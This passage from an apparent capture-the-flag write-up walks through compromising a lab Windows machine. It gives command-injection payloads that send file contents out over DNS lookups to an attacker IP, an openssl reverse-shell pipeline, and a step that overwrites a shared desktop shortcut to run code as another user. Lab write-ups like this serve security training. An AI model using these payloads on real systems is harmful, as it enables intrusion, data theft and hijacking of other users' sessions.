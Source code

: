 This somewhat complicated looking command executes "dir" and tokenizes the output. The string that is actually looked up is all the tokens combined into one large string with "~!" indicating the start, "–" as delimiter and "~~" as end marker. We need the markers to parse the responses in order to get nice human readable output.

We run a [custom dns server](https://gist.github.com/xct/45bc42a181b21ccca3e19f4c8212e1d8) on our attacker box to respond to requests (to avoid timeouts) and parse the answers. With this setup we can execute commands and retrieve the results and start enumerating the box. After some digging around we find that openssl is installed, which is very interesting because openssl can be used to obtain a remote shell. Before we try something in that regard we check the firewall configuration with `netsh advfirewall firewall show rule name=all` and find that tcp ports 73 and 163 are open for outbound communication.

To obtain a shell with openssl we have to pipe the result of openssl to cmd and the result of cmd to back to openssl like this: `openssl.exe s_client -quiet -connect <ip>:73 | cmd.exe | openssl.exe s_client -quiet -connect <ip>:163`, using one of the ports to send commands and the other one to retrieve them.

Starting the shell however fails at this point. To be honest i can’t tell why. After looking around some more we find a note in our current users home folder at "c:/users/alan/Desktop/note-draft.txt". To download the note we use openssl:

```
p||cd "c:/Program Files (x86)/OpenSSL-v1.1.0/bin" && (for /F "tokens=1,2,3,4,5,6,7,8,9,10" %b in ('openssl.exe s_client -connect 10.10.14.4:136 ^< "c:/users/alan/Desktop/note-draft.txt"') do nslookup "~!%b--%c--%d--%e--%f--%g--%h--%i--%j--%k~~" 10.10.14.4)
```

The note has the following content:

```
"I've created a shortcut for VS on the Public Desktop to ensure we use the same version. Please delete any existing shortcuts and use this one instead."
```

This suggests that we should be able to replace the lnk on the public desktop, resulting in execution of a program of our choice in the context of another user. We create a lnk file on a windows vm and change the path to the openssl shell command mentioned before. Finally we upload the lnk, overwriting the original lnk mentioned in the note:

```
p||cd "c:/Program Files (x86)/OpenSSL-v1.1.0/bin" && (for /F "tokens=1,2,3,4,5,6,7,8,9,10" %b in ('openssl.exe s_client -quiet -connect 10.10.14.4:136 ^> "c:/users/public/desktop/shortcuts/Visual Studio 2017.lnk"') do nslookup "~!%b--%c--%d--%e--%f--%g--%h--%i--%j--%k~~" 10.10.14.4)
```

After waiting a moment we get a shell back as jorge, and can read the user.txt file.

## Root Flag

The usual enumerating shows that we have a drive "d:\\" where we find another note:

```
D:\DEV\MSIs>type note.txt
Please drop MSIs that need testing into this folder - I will review regularly. Certs have been added to the store already.

- Rupal
```
